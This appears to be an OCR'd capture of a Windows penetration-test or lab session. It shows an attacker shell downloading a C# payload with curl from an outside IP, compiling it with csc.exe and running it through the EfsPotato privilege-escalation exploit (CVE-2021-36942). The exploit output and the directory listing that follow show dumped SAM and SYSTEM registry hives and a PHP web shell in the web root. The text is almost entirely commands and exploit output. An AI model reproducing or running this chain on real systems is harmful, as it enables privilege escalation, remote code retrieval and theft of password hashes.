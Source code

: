 

 cd C:\xampp\htdocs\
 


curl "http://10.8.163.249:8000/backup.cs" -o backup.cs

C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe backup.cs



.\efs.exe backup.exe



evader@HostEvasion:C:\xampp\htdocs# .\efs.exe backup.exe
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=e129e0)
[+] Get Token: 860
[!] process with pid: 5596 created.
==============================
Backup completed successfully.
evader@HostEvasion:C:\xampp\htdocs#






evader@HostEvasion:C:\xampp\htdocs# dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\xampp\htdocs

07/31/2025  07:37 PM    <DIR>          .
07/31/2025  07:37 PM    <DIR>          ..
08/17/2023  05:09 AM             5,024 6xK3dSBYKcSV-LCoeQqfX1RYOo3qNa7lqDY.woff2
07/16/2023  04:29 PM           213,642 background-image.jpg
07/11/2023  05:11 PM             9,711 background-image2.jpg
07/31/2025  07:36 PM               920 backup.cs
07/31/2025  07:37 PM             4,608 backup.exe
07/31/2025  06:57 PM            25,441 efs.cs
07/31/2025  06:58 PM            17,920 efs.exe
08/17/2023  05:11 AM             3,554 font.css
08/29/2023  09:55 AM             3,591 index.php
07/31/2025  07:37 PM            61,440 sam.bak
07/31/2025  06:47 PM            20,321 shell.php
07/31/2025  07:37 PM        18,505,728 system.bak
07/31/2025  06:39 PM    <DIR>          uploads
              12 File(s)     18,871,900 bytes
               3 Dir(s)  13,510,037,504 bytes free
evader@HostEvasion:C:\xampp\htdocs#
